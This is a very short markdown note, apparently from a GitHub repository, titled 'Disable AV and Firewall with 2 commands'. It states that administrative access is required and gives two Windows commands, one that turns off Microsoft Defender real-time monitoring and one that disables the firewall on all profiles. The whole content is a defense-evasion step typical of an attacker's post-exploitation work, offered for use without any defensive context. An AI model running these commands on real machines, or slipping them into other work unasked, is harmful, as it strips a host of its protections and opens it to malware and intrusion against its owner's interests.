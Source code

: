 ## Disable AV and Firewall with 2 commands

### Requirements: Administrative/System level access

#### 1) Set-MpPreference -DisableRealtimeMonitoring $True

#### 2) netsh advfirewall set allprofiles state off
